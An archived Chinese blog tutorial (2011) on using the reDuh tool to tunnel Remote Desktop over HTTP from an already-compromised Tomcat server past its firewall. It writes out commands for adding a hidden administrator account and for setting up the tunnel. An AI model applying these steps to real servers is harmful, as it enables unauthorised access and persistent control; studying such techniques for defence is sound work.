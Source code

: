 ```yaml
---
layout: post
title:  "利用reDuh打通HTTP隧道"
date:   2011-02-23 20:20:31
author: 大眼夹
categories: program
---
```


## 利用reDuh打通HTTP隧道
### by 大眼夹
### at 2011-02-23 20:20:31
### original <http://item.feedsky.com/~feedsky/clippit/~7808845/516545930/1226479/1/item.html>

<div><img width="580" height="338" src="http://dayanjia.com/wp-content/uploads/2011/02/hacker-580x338.png" alt="hacker" title="hacker"></div><p>在某些缺乏安全性的Windows服务器上，总会运行着一个Tomcat，上面跑着某些国内外包公司做的缺乏安全性的JSP程序。这些一环套一环的缺乏安全性就造就了一台可怜地服务器，暴露在Internet的某个小角落。但是有时，这些缺乏安全性的服务器会被一面强有力的防火墙保护着，这位忠实的卫士竭尽所能安慰着那千疮百孔的服务器。但是外来的捍卫终究抵不过自身的体弱多病……</p>
<p>说得这么矫情，其实只是假设一个环境。我们现在有一台跑Tomcat的Windows服务器，我们已经能够自由地上传一些文件，执行一些命令行——想必一般的Webshell都能做到这些。这时候我们想获取服务器的终极操控权——远程桌面，却发现3389端口却被防火墙挡住了，这该怎么办呢？</p>
<p><span></span></p>
<h2>准备工作</h2>
<p>当然我们先看一下3389端口是否是开放的，命令行下执行<code>netstat -an</code>，如果能看到类似“TCP    0.0.0.0:3389 LISTENING”这样的字样就说明很有希望了。然后我们再新建一个用户吧。依次执行<code>net user username password /add</code>和<code>net localgroup administrators username /add</code>。这时候我们满心欢喜地想在机器上远程桌面连接服务器，却发现失败了。排除了一些IP排除策略的可能性后（在注册表中可以检查相关设置），多半就是防火墙的问题了。</p>
<p><a rel="attachment wp-att-1213" href="http://dayanjia.com/2011/02/use-reduh-create-a-http-tunnel.html/mstsc-error"><img title="mstsc error" src="http://dayanjia.com/wp-content/uploads/2011/02/mstsc-error.png" alt="" width="406" height="272"></a></p>
<h2>使用reDuh建立隧道</h2>
<p><a title="reDuh" href="http://www.sensepost.com/labs/tools/pentest/reduh">reDuh</a>是由国外一个名叫Glenn Wilkinson的安全人员编写的一个通过HTTP协议建立隧道传输各种其他数据的工具。运行于服务器的JSP脚本接受HTTP请求，在本地转发给相应的端口，并接受本地端口的数据再通过HTTP发送给远程客户端。<strong>这样本来应该走其他端口的数据变摇身一变，披上了HTTP协议的报文头，换走HTTP的端口了。</strong>所有HTTP通道中的数据都是经过Base64编码的（Base64可以将二进制数据转换成ASCII字符序列，并且可以解码还原）。下面这张图详细地说明了reDuh的工作流程（图片汉化自<a title="Copy of the Slides" href="http://www.sensepost.com/cms/resources/labs/conferences/eye_of_the_needle/SensePost_Eye_of_a_Needle.pdf">SensePost's BlackHat USA 2008 talk on tunnelling data in and out of networks</a>）：</p>
<p><a rel="attachment wp-att-1214" href="http://dayanjia.com/2011/02/use-reduh-create-a-http-tunnel.html/reduh-tunnel"><img title="reDuh tunnel" src="http://dayanjia.com/wp-content/uploads/2011/02/reDuh-tunnel-580x404.png" alt="" width="580" height="404"></a></p>
<p>将JSP文件上传至服务器后，我们在自己机器上运行客户端建立连接：<code>java -jar reDuhClient.jar http://internal.bigcompany.com/uploads/reDuh.jsp</code>。产生输出：</p>
<pre>[Info]Querying remote web page for usable remote service port
[Info]Remote RPC port chosen as 42000
[Info]Attempting to start reDuh from internal.bigcompany.com/uploads/reDuh.jsp.  Using service port 42000. Please wait...
[Info]reDuhClient service listener started on local port 1010</pre>
<p>这时候我们登录进本机的1010端口，可以使用telnet或者netcat。登录后我们会看到<code>Welcome to the reDuh command line</code>的提示。输入<code>[createTunnel]1234:127.0.0.1:3389</code>便可以将远程服务器的3389端口和本地的1234端口绑定起来。</p>
<p>这时候我们便可以打开远程桌面连接，连接127.0.0.1:1234，然后就能看到熟悉的界面了。java的控制台会不断输出运行信息。因为绕了很多弯的缘故，所以远程桌面的速度并不快，但是毕竟连接上了，不是吗？</p>
<p><a rel="attachment wp-att-1215" href="http://dayanjia.com/2011/02/use-reduh-create-a-http-tunnel.html/mstsc"><img title="mstsc" src="http://dayanjia.com/wp-content/uploads/2011/02/mstsc-580x448.png" alt="" width="580" height="448"></a></p>
<p>当需要断开连接的时候，我们只需要输入<code>[killReDuh]</code>即可。</p>
<h2>隧道是个好东西</h2>
<p>如果大家知道利用国外服务器的SSH隧道可以用来访问某些被“防火墙”挡住的国外网站的话，一定会觉得这似乎很熟悉。没错，只不过本文是使用的HTTP的80端口，而那是利用的SSH的22端口，采用的协议不同而已。</p>
<p><strong>隧道就是这么个好东西，能够绕过防火墙的限制，在原本不属于自己的道路上跑运输——这就是“隧道”的本意吧？</strong></p>


<h3>没有相关日志</h3><img src="http://www1.feedsky.com/t1/516545930/clippit/feedsky/s.gif?r=http://item.feedsky.com/~feedsky/clippit/~7808845/516545930/1226479/1/item.html" border="0" height="0" width="0">